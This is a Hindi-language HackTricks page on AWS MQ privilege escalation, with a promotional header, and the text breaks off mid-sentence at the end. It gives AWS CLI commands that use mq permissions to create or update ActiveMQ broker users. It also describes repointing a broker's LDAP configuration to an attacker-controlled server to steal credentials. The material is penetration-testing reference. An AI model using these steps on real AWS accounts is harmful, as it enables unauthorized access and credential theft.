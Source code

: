 # AWS - MQ विशेषाधिकार बढ़ाना

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>

## MQ

MQ के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

इन अनुमतियों के साथ आप **ActimeMQ ब्रोकर में एक नया उपयोगकर्ता बना सकते हैं** (यह RabbitMQ में काम नहीं करता):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुंच

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

इन अनुमतियों के साथ आप **एक नए उपयोगकर्ता को एक ActimeMQ ब्रोकर में बना सकते हैं** (यह RabbitMQ में काम नहीं करता):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुंचना

### `mq:ListBrokers`, `mq:UpdateBroker`

यदि एक ब्रोकर **LDAP** का उपयोग **ActiveMQ** के अधिकारीकरण के लिए कर रहा है। तो यह संभावना है कि **LDAP सर्वर के कॉन्फ़िगरेशन** को **बदला जा सकता है** जो अटैकर द्वारा नियंत्रित होता है। इस तरह अटैकर **LDAP के माध्यम से भेजे जा रहे सभी क्रेडेंशियल्स को चुरा सकेगा**।
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
यदि आप किसी प्रकार से ActiveMQ द्वारा उपयोग किए गए मूल क्रेडेंशियल्स को खोज सकते हैं तो आप MitM कार्रवाई कर सकते हैं, क्रेडेंशियल्स चुरा सकते हैं, मूल सर्वर में उन्हें उपयोग कर सकते हैं, और प्रतिक्रिया भेज सकते हैं (शायद चोरी किए गए क्रेडेंशियल्स का पुनः उपयोग करके आप यह कर सकते हैं।)

**संभावित प्रभाव:** ActiveMQ क्रेडेंशियल्स चुर
